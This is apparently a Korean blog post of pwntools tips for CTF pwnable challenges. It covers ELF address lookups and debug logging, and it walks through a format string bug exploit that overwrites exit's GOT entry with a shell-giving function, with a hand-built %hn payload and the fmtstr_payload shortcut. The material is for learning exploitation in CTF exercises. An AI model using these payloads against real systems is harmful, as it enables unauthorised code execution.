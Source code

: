 ```yaml
---
layout: post
title:  "Pwntools Usage"
date:   2020-10-01
categories: ["2020","tips","pwnable"]
update:   2020-10-01
comment: true
tags: [tips,pwnable]
---
```


## Pwntools Usage

❗ FSB 문제를 풀다가 새로 알게 된 pwntools의 기능이 있어 정리하고 이참에 pwntools 기능들 배우는 거 있을 때마다 여기에 업데이트 하려고 한다. 

---

### ELF

바이너리의 `got`, `bss` 등 여러 주소를 구할 때 `ELF()`를 쓰면 편하다.

```python
from pwn import *

e=ELF('binary') 
puts_got =e.got['puts'] # get puts got addr (same with plt)
bss_addr = e.bss() # get bss addr
func_addr = e.symbols['func'] # get custom func addr
```

 주로 위 3가지를 많이 쓴다. 주소들을 정수로 반환해줘서 바로 packing에 사용할 수 있다.

---

### DEBUG

pwntools에는 디버깅할 때 유용한 기능도 많이 제공한다.

``` python
from pwn import *

context.log_level="debug" # give useful info for debugging
log.info('some_string') # logging message (much better than print())
```

`context.log_level="debug"`는 python 파일을 실행하고 내가 `send`할 때나 `recv`할 때, 자세한 정보를 보여줘서 디버깅할 때 편하다.

`log.info()`는 그냥 `print()`로 확인하는 거보다 간지나는 로깅 메시지를 남길 수 있다.

가장 중요한 **gdb.attach() & raw_input()** :

> 🚀 참고
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

내가 저 사람보다 자세히 쓸 자신이 없다 ! 😁

---

### FSB (Format String Bug) with Pwntools

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`Partial RELRO`가 걸려있기 때문에 `got` 주소를 덮어야 겠다고 생각하고 코드를 보면, **FSB**가 발생해서 `got`를 덮을 수 있다. 쉘을 따주는 함수도 있었기 때문에 그 함수 주소로 main함수 마지막에 실행하는 `exit`함수의 `got`를 덮어 쉘을 따려고 했다. 

나는 평소에 **FSB**를 사용할 때 `%hn`으로 2바이트씩 안 덮고 한꺼번에 `%n`로 4바이트를 덮었다. 근데 이 문제에서는 그렇게 하니까 안 된다. 이유는 정확히는 모르겠지만 시간제한 때문인 거 같다.. 그래서 `%hn`으로 2바이트씩 덮어줬고 성공했다.

즉 페이로드가 다음과 같다:

```python
payload+=p32(exit_got+2)
payload+=p32(exit_got)
payload+="%2044c"
payload+="%1$hn"
payload+="%32261c"
payload+="%2$hn"
```

#### But

pwntools에는 이 페이로드를 알아서 짜주는 짱짱 기능이 있었다. 😂

``` python
# offset = 1, overwrite exit_got to get_shell
payload=fmtstr_payload(1,{exit_got:get_shell})
```

`fmtstr_payload()`라는 함수에 offset과 덮을 함수를 주면 알아서 페이로드를 짜준다.... 미쳐따 그냥

여기서 offset은 `ESP+0x4*(offset)`이라고 생각하면 된다. 즉 `%x`를 했을 때 첫번 째 `%x`에서 buf의 시작지점의 문자열이 출력되었기 때문에 offset이 1이다.


